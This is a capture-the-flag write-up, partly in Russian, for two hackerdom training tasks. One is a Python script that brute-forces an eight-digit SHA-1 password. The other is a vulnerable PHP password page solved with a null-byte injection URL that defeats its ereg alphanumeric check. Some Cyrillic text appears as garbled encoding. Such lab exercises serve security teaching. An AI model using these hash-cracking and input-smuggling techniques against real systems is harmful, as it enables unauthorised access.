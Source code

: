 https://training.hackerdom.ru/board/  

## Hash
**SHA-1**  
SHA1(пароль) = 'a58dc2cfc5a93134666c607fbc5d6e961254214a'. Пароль состоит ровно из восьми цифр.  
```python
import hashlib

hash_string = 'a58dc2cfc5a93134666c607fbc5d6e961254214a'

for i in range (10000000, 99999999):
	m = hashlib.sha1(str(i)).hexdigest()
	print (m)
	if m == hash_string:
		print('Did it! Number is ' + str(i))
		break
```
## Blending
**Проверка пароля**  
Введите правильный пароль на [сайте](https://regexp_pass.training.hackerdom.ru/).  
Исходник:  
```php
<html>
<head>
    <title>РџСЂРѕРІРµСЂРєР° РїР°СЂРѕР»СЏ</title>
    <link rel='stylesheet' href='style.css' type='text/css'>
    <meta charset="utf-8" />
</head>
<body>

<?php
require 'flag.php';

if (isset ($_GET['password'])) {
	if (ereg ("^[a-zA-Z0-9]+$", $_GET['password']) === FALSE)
		echo '<p class="alert">You password must be alphanumeric</p>';
	else if (strpos ($_GET['password'], '--') !== FALSE)
		die('Flag: ' . $flag);
	else
		echo '<p class="alert">Неверный пароль</p>';
}
?>

<section class="login">
        <div class="title">
                <a href="./index.txt">РСЃС…РѕРґРЅРёРє</a>
        </div>

        <form method="get">
                <input type="text" required name="password" placeholder="РџР°СЂРѕР»СЊ" /><br/>
                <input type="submit" value="Р’РѕР№С‚Рё"/>
        </form>
</section>
</body>
</html>
```
```
https://regexp_pass.training.hackerdom.ru/?password=pass%00--  
```

